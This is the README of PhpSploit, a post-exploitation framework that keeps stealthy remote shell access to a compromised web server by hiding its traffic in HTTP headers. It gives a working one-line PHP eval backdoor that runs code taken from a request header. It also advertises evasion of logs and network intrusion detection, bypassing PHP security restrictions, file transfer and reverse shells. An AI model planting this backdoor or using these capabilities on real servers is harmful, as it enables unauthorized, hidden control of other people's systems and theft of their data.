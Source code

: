 ### PhpSploit: *Advanced post-exploitation framework* ###

PhpSploit is a **remote control** framework, aiming to provide a **stealth**
interactive shell-like connection over HTTP between client and web server.
It is a post-exploitation tool capable to maintain access to a
compromised web server for **privilege escalation** purposes.

#### Overview ####

The obfuscated communication is accomplished using HTTP headers under            
valid client HTTP requests and relative web server's responses.

The physical backdoor is configurable and really tiny to increase stealth:
```php
<? @eval($_SERVER['HTTP_PHPSPL01T']) ?>
```

#### Features ####

- Nearly invisible by log analysis and NIDS signature detection
- Safe-mode and common PHP security restrictions bypass
- More than 20 plugins to automate post-exploitation tasks:
    - Run commands and browse filesystem, bypassing PHP security restrictions
    - Upload/Download files between client and target
    - Edit remote files through local text editor
    - Run SQL console on target system
    - Spawn reverse TCP shells
- Communications are hidden in HTTP Headers
- Loaded payloads are obfuscated to bypass NIDS
- Multi-request support for large payloads
- Highly configurable through dynamic settings engine
- HTTP/HTTPS Proxy support
- And even more...

#### Example #####

![phpsploit example](http://s22.postimg.org/b0uvq3klb/Untitled.png)
